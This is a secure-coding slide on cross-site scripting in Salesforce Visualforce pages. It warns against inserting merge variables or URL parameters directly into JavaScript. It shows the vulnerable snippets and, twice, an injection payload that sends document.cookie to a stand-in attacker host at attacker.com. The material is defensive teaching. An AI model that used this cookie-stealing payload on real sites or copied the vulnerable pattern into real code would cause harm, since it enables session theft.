

# <VisualForce – XSS – What to avoid>
Don’t use Visual force merge variables directly in Javascript
<script>var foo = '{!Board.Message_Posting__c}';</script>
Malicious code can be executed if If Message_Posting__c were to contain:
“1';document.location='http://www.attacker.com/cgi-bin/cookie.cgi?'%2Bdocument.cookie;var%20foo='2“
Don’t use $CurrentPage.parameters directly in Javascript
<script>var foo = '{!$CurrentPage.parameters.userparam}';</script>
Malicious code can be executed if If Page is invoked with
userParam = “1';document.location='http://www.attacker.com/cgi-bin/cookie.cgi?'%2Bdocument.cookie;var%20foo='2“
Never trust URL Parameters nor the Data entered by users